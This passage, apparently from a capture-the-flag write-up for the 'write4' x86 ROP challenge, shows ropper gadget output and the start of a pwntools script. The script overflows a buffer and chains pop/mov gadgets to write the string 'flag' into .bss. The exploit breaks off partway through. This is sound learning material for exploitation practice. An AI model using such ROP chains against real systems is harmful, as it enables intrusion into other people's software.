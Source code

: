 All we need now is to write that value through ROP. To do that we will need to be able to dereference that address of ```.bss``` and pop off the stack what we don't need to keep the flow of the ROP chain.

```
voidwalker@Abyss:[write4x86]** ropper --file write432 --search "mov|pop"
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: mov|pop

[INFO] File: write432
0x080484e7: mov al, byte ptr [0xc9010804]; ret;
0x0804846d: mov al, byte ptr [0xd0ff0804]; add esp, 0x10; leave; ret;
0x080484ba: mov al, byte ptr [0xd2ff0804]; add esp, 0x10; leave; ret;
0x080484e4: mov byte ptr [0x804a020], 1; leave; ret;
0x08048543: mov dword ptr [edi], ebp; ret;
0x080484b2: mov ebp, esp; sub esp, 0x10; push eax; push 0x804a020; call edx;
0x08048466: mov ebp, esp; sub esp, 0x14; push 0x804a020; call eax;
0x080484da: mov ebp, esp; sub esp, 8; call 0x450; mov byte ptr [0x804a020], 1; leave; ret;
0x08048381: mov ebx, 0x81000000; ret;
0x08048423: mov ebx, dword ptr [esp]; ret;
0x0804847a: mov esp, 0x27; add bl, dh; ret;
0x08048525: pop ebp; lea esp, [ecx - 4]; ret;
0x080485ab: pop ebp; ret;
0x080485a8: pop ebx; pop esi; pop edi; pop ebp; ret;
0x0804839d: pop ebx; ret;
0x08048524: pop ecx; pop ebp; lea esp, [ecx - 4]; ret;
0x080485aa: pop edi; pop ebp; ret;
0x080485a9: pop esi; pop edi; pop ebp; ret;
0x08048527: popal; cld; ret;
```

We have everything we need in these ROP gadgets. Let's write our script!

```python
voidwalker@Abyss:[write4x86]** cat exploit.py
#!/usr/bin/env python3

from pwn import *

context.arch = "i386"
context.bits = 32
context.endian = "little"

e = ELF("./write432")

io = e.process()

print(io.recvuntil('>'))

pop_2 = p32(0x80485aa) # pop edi; pop ebp; ret
mov = p32(0x08048543) # mov DWORD PTR [edi],ebp
bss_addr = 0x0804a020
print_file = p32(0x80483d0) # print_file@plt

payload = b'A'*44

payload += pop_2
payload += p32(bss_addr)
payload += p32(0x67616c66) # "flag"
payload += mov

payload += pop_2
payload += p32(bss_addr+0x4)
```